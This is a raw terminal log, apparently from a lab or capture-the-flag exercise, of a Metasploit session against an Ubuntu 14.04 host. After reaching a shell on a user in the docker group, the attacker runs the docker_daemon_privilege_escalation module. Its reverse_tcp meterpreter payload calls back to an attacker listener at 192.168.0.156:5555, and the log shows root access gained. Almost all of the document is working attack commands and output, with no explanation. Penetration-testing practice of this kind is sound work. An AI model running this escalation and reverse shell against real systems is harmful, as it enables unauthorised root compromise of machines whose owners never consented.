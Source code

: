 meterpreter > shell
Process 2889 created.
Channel 1 created.
id
uid=1121(boba_fett) gid=100(users) groups=100(users),999(docker)
groups
users docker
docker ps
CONTAINER ID        IMAGE                  COMMAND             CREATED             STATUS              PORTS               NAMES
65967e577dde        7_of_diamonds:latest   "/bin/bash"         4 years ago         Up 6 hours                              7_of_diamonds
docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
7_of_diamonds       latest              889e19a44bad        4 years ago         73.6MB
ubuntu              latest              d70eaf7277ea        4 years ago         72.9MB





msf6 exploit(linux/local/docker_daemon_privilege_escalation) > show options

Module options (exploit/linux/local/docker_daemon_privilege_escalation):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  2                yes       The session to run this module on


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.0.156    yes       The listen address (an interface may be specified)
   LPORT  5555             yes       The listen port



sf6 exploit(linux/local/docker_daemon_privilege_escalation) > run
[*] Started reverse TCP handler on 192.168.0.156:5555 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Docker daemon is accessible.
[+] The target is vulnerable.
[*] Writing payload executable to '/tmp/vfmAjYnRWU'
[*] Executing script to create and run docker container
[*] Sending stage (3045380 bytes) to 192.168.0.207
[+] Deleted /tmp/vfmAjYnRWU
[*] Meterpreter session 3 opened (192.168.0.156:5555 -> 192.168.0.207:59030) at 2025-03-07 12:48:27 -0500
[*] Waiting 60s for payload

meterpreter > sysinfo
Computer     : 192.168.0.207
OS           : Ubuntu 14.04 (Linux 3.13.0-24-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter > shell
Process 3518 created.
Channel 1 created.
id
uid=1121(boba_fett) gid=100(users) euid=0(root) groups=0(root),100(users),999(docker)
groups
users docker
